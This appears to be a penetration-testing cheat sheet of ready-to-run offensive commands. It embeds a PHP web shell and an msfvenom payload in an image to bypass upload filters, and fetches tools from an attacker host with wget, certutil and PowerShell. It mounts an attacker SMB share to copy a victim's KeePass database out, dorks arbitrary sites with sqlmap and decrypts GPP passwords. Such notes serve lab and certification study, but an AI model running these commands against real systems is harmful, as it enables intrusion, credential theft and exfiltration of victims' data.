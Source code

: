 # Image upload bypass

Inject payload on image data
```bash
head -n100 real_image.png > payload_image.png
msfvenom -p <payload> LHOST=<kali-ip> LPORT=4444 -f php -o msfvenom_payload.php
cat msfvenom_payload.php >> payload_image.png
```

Inject payload on image metadata
```bash
exiftool -Comment='<?php echo "<pre>"; system($_GET['cmd']); ?>' payload_image.png
curl http://website.org/uploads/payload_image.png?cmd=whoami
```

-----------------------

# File transfering via HTTP

Serve File
```bash
python3 -m http.server 80
```

Linux
```bash
wget http://kali-ip/filename
curl http://kali-ip/filename -o filename
```

Windows
```bash
certutil -urlcache -f http://kali-ip/filename filename
iwr -uri http://kali-ip/filename -OutFile filename
(New-Object Net.WebClient).DownloadFile('http://kali-ip/filename', 'filename')
```

-----------------------

# File transfer via SMB

Serve Folder
```bash
impacket-smbserver -ip 192.168.45.177 -smb2support -username sombi -password sombi SombiShare files
```

Connect via powershell
```bash
$pass = convertto-securestring 'sombi' -AsPlainText -Force
$cred = New-Object System.Management.Automation.PSCredential('sombi', $pass)
New-PSDrive -Name sombi -PSProvider FileSystem -Credential $cred -Root \\192.168.45.245\SombiShare

cd kali:
copy kali:\PrintSpoofer64.exe C:\TEMP
copy kali:\ncat.exe C:\TEMP
copy kali:\SharpHound.exe C:\TEMP
```

Connect via native windows
```bash
net use X: \\192.168.45.172\SombiShare /user:sombi sombi
xcopy C:\Users\milana\Documents\Database.kdbx X:\ /Y
```

-----------------------

# user SMB server within the Windows machine (Native Windows)
```bash
net use X: \\192.168.45.172\SombiShare /user:sombi sombi
xcopy C:\Users\milana\Documents\Database.kdbx X:\ /Y
```

-----------------------

# SQLMAP dorks
```bash
sqlmap -g "inurl:\"php?id=\"" --random-agent -f --batch --answer="extending=N,follow=N,keep=N,exploit=n"
```

-----------------------

# Decrypt Secure string Windows
```bash
<Properties>
...
cpassword="+bsY0V3d4/KgX3VJdO/vyepPfAN1zMFTiQDApgR92JE"
...
</Properties>

gpp-decrypt "+bsY0V3d4/KgX3VJdO/vyepPfAN1zMFTiQDApgR92JE"
```

-----------------------

# Take ownership of file on Windows
```bash
takeown /F filename
cacls id_rsa /E /G "Administrators":R
```
-----------------------

# Fix windows path
```bash
echo %path%
C:\Users\tony\AppData\Local\Microsoft\WindowsApps

#let's update the path
set PATH=%PATH%;C:\Windows\System32\;C:\Windows\System32\WindowsPowerShell\v1.0\;C:\Windows\System32\wbem\;
```
